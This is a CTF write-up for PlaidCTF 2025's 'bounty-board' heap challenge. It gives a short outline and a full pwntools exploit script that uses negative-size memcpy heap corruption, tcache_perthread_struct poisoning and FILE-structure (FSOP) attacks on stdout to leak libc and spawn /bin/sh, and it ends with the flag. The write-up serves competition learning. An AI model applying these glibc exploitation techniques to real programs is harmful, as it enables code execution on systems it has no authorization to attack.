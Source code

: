 * Description 
[[file:clipboard-20250406T133528.png]]

Issue your own bounty notes at ~nc bounty-board.chal.pwni.ng 1337~... or just copy the same one over
and over?

https://plaidctf.com/files/copy.d6e358a7392df55cdc5414b166536f5974425c533d3c702ec8971e501014cb74.tgz

If you've been struggling with a solution that works locally but not remotely, please revisit your
assumptions and think carefully. The choices of which information to release and to not release were
intentional. 

* Solution

[[file:clipboard-20250406T133123.png]]

[[file:clipboard-20250406T133209.png]]

#+begin_src sh
ctf ❯ checksec dist/copy
[*] '/home/curtain/Documents/ctf/2025/plaidctf/pwn/bounty-board/dist/copy'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
#+end_src

1. used overflow to shrink the size of the top chunk
2. use large scanf mallocs to trigger sysmalloc ~_int_free~, and get unsortedbin chunks on the heap
3. partially overwrite libc pointer to _IO_2_1_stdout_
4. use *negative size* memcpy to copy this pointer backwards into ~tcache_perthread_struct~, as well as a valid tcache count
5. =FSOP= for leak
6. same idea to move a pointer into ~tcache_perthread_struct~, allocating on stdout again, this time for RCE

#+begin_src python :results output
#!/usr/bin/python3
from pwn import *
from sys import argv
import traceback

# remote uses __memcpy_avx512_unaligned_erms

e = context.binary = ELF('./copy_patched')
libc = ELF('./libc.so.6', checksec=False)
ld = ELF('./ld-linux-x86-64.so.2', checksec=False)
if args.REMOTE:
    ip, port = "bounty-board.chal.pwni.ng", 1337
    conn = lambda: remote(ip, port, level="error")
else:
    conn = lambda: e.process(level="error")

context.terminal = ["gnome-terminal", "--", "bash", "-c"]

def attach(p):
    gdb.attach(p, gdbscript=f"""
        set $memcpy=__memcpy_avx512_unaligned_erms
        set $libc=(long)&system - 0x58750
        set $heap=*(unsigned long*)($libc-0x2900)-0x10
    """)
    pause()

send_choice = lambda c: p.sendlineafter(b"> ", str(c).encode())

index = 0
def alloc(size, data):
    global index
    send_choice(0)
    p.sendlineafter(b"size: ", str(size).encode())
    assert b"\n" not in data
    if len(data) < size:
        data += b"\n"
    p.send(data)
    index += 1
    return index-1

def copy(dst, src, sz):
    send_choice(1)
    p.sendlineafter(b"dst: ", str(dst).encode())
    p.sendlineafter(b"src: ", str(src).encode())
    p.sendlineafter(b"len: ", str(sz).encode())

def scanf(n):
    send_choice("0"*(n-1) + "1")
    p.sendlineafter(b"dst: ", b"-1")

def leak():
    # guess
    libc.address = 0xb000
    top_size = 0xc11

    data = b"A"*8 + p16(libc.sym._IO_2_1_stdout_ & 0xffff) + b"A"*6
    data += b"A" * 0x40
    data += b"A"*8 + p64(top_size)
    data = data.ljust(0x70, b"\x00")
    data += p16(0)*3 + p16(1) + p64(0)*4
    data = data.ljust(0xe0, b"\x00")

    src = alloc(0xf7, data)
    dst = alloc(0x57, b"B"*0x10)

    # overwrite top chunk size
    copy(dst, src, -0x190)

    # move tcache count into position
    copy(src, dst, -0x10)
    copy(src, dst, -0x90)
    copy(src, dst, -0x190)

    # copy guess back to src, it getts overwritten by last copy
    copy(dst, src, 0x10)

    # get unsortedbin chunk
    scanf(0x800)

    # copy libc pointer to another chunk
    leak1 = alloc(0x100, b"X")
    copy(src, leak1, -0x20)

    # partially overwrite libc pointer -> stdout
    copy(src, dst, 10)

    # move (guessed) stdout pointer to tcache_perthread_struct
    copy(src, dst, -0x78)
    copy(src, dst, -0x78-0x100+0x80)

    # allocate on stdout for FSOP
    alloc(0x47, p64(0xfbad1800) + b"\x00"*0x17)
    return p.recvuntil(b"[[ Menu ]]", drop=True)

def is_valid(p):
    p.recvuntil(b"[[ Menu ]]")
    return p.libs()["/home/sasha/CTF/plaid/2025/bounty_board/libc.so.6"] & 0xffff == 0xb000

while True:
    index = 0
    p = conn()
    try:
        out = leak()
        if out:
            break
        print("EMPTY")
    except EOFError as exception:
        print(repr(exception))
    p.close()

stdin = u64(out[-19-8:-19])
log.info(f"_IO_2_1_stdin_: {hex(stdin)}")

libc.address = 0
libc.address = stdin - libc.sym._IO_2_1_stdin_
log.info(f"libc: {hex(libc.address)}")

# setup 2 pointers in tcache_prethread_struct
# tcache[0xe0] and tcache[0xf0]
data  = p64(0)*2
data += p64(0) + p16(1)*2 + p16(0)*2
data = data.ljust(0xe0, b"\x00")
data += p64(0xdeadbeef) + p64(libc.sym._IO_2_1_stdout_)

dst = alloc(0xf7, data)
src = alloc(0xf7, data)

# move both tcache count and pointer into tcache_perthread_struct
for i in range(5):
    copy(dst, src, -(0x10 + 0x100*i))

# https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md#3---the-fsop-way-targetting-stdout

# some constants
stdout_lock = libc.sym._IO_stdfile_1_lock
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
# our gadget
gadget = libc.address + 0x00000000001724f0 # add rdi, 0x10 ; jmp rcx

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']            # the function that we will call: system()
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')  # will be at rdi+0x10
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout+0x200          # _wide_data just need to points to empty zone
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)

assert len(fake) <= 0xe8
alloc(0xe7, bytes(fake)[:0xe7])

p.interactive()
# PCTF{t4m1ng_7h3_wildc0py_in_th3_wi1d_wild_w3st}
#+end_src
